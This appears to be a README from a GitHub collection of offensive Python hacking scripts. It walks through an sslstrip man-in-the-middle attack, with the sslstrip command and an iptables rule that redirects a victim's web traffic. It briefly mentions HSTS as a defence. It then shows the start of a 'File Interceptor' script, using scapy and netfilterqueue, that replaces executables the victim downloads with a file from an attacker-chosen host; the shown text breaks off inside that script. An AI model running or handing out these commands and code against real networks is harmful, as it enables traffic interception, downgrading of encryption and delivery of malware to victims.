   - If response is sent in HTTP/1.1 fields such as 'Content-Length' will not be sent in a single response but as chunks. Change this to HTTP/1.0 to recieve it as a whole single repsonse.

4. Run sslstrip.

   `python sslstrip.py`

5. Redirect all packets from the victim source traffic onto your made iptable queues (port 80) and finallu over to sslstrip (port 10000) using the following iptables command:

   ` iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

__Traffic Flow:__ _victim <--> Attacker iptable queues <--> sslstrip <..> target server._


## Fix: 

- __Enable HSTS:__ 

 The browser specifies a list of websites to only load through HTTPS, hence defeating this form of attack.
 It is prevalant on popular sites like google,facebook etc.


## Previous programs modified/rewritten to support HTTPS:

### 1. File Interceptor

_[Source](https://github.com/m3rcer/Python-Hax/blob/main/File_Interceptor/README.md)_

- We changed the sport and dport definitions to match sslstrip's port definitions (port 10000).

- If an 'exe' were replaced by an 'exe' it would cause a bug where a redundant loop between the iptable queues and sslstrip would be caused. To manage it we check if the replaced 'exe' url matches the requested 'exe' in the request, and only if it dosen't the download is replaced with the new 'exe'. 



```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
```